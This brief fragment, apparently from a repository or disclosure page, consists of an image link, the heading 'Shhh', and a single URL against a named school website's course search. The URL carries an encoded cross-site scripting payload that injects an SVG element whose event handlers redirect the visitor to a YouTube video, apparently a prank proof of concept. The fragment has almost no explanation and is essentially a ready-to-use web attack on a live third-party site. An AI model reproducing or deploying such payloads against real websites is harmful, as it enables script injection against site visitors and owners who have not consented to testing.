 # Shhh
https://rotorualakes.schoolpoint.co.nz/courses/search?s=%20%3Csvg/onload=%27+/%22/+/onmouseover=%20location.replace(%27https://www.youtube.com/watch?v=dQw4w9WgXcQ%27);%20%3E
